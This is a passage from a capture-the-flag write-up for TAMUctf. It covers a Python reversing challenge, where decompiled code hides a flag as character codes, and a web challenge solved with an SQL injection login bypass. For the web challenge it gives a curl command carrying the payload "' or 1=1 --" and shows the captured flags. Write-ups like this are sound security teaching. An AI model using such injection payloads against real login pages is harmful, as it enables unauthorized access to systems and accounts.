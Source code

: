 ```python
# Embedded file name: reversing2.py
# Compiled at: 2018-10-07 19:28:58
from datetime import datetime
Fqaa = [102, 108, 97, 103, 123, 100, 101, 99, 111, 109, 112, 105, 108, 101, 125]
XidT = [83, 117, 112, 101, 114, 83, 101, 99, 114, 101, 116, 75, 101, 121]

def main():
    print 'Clock.exe'
    input = raw_input('>: ').strip()
    kUIl = ''
    for i in XidT:
        kUIl += chr(i)

    if input == kUIl:
        alYe = ''
        for i in Fqaa:
            alYe += chr(i)

        print alYe
    else:
        print datetime.now()


if __name__ == '__main__':
    main()
```

In short, this program prints the contents of `Fqaa` if the input matches
`XidT`. Let's just print it out.

```python
data = [102, 108, 97, 103, 123, 100, 101, 99, 111, 109, 112, 105, 108, 101, 125]
print(''.join(map(chr, data)))
```

- flag: `flag{decompile}`

## Not Another SQLi Challenge
**Category**: Web

{{% blockquote %}}
http://web1.tamuctf.com

Difficulty: easy
{{% /blockquote %}}

The page has a minimal login page. Since this challenge is rated "easy", let's
try something simple.

```
$ curl http://web1.tamuctf.com/web/login.php -d "username=' or 1=1 --&password="
<html>gigem{f4rm3r5_f4rm3r5_w3'r3_4ll_r16h7}!</html>
```
